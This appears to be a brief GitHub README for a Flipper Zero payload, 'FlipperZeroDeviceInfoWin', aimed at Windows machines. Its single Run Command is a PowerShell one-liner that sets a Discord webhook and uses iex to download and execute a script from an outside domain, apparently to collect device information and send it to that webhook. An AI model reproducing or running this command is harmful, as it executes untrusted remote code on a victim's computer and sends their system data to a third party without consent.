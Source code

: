 # FlipperZeroDeviceInfoWin

## Run Command

powershell -Command "$discord='<your_webhook_here>'; iex (New-Object Net.WebClient).DownloadString('https://link.wmlsandaruwan.online/FlipperZeroDeviceInfoWin')"
